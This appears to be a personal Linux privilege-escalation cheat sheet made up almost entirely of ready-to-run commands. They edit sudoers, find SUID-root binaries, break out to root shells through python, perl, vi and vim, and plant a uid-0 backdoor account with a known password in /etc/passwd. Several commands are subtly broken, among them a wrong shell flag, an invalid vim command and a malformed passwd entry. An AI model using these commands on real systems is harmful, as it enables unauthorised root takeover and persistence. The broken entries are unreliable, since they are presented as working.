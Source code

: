 Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---

List if use can execute a cmd as root

```shell
sudo -l
```

```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

---
Shell SUDO / escape:

---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```shell
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```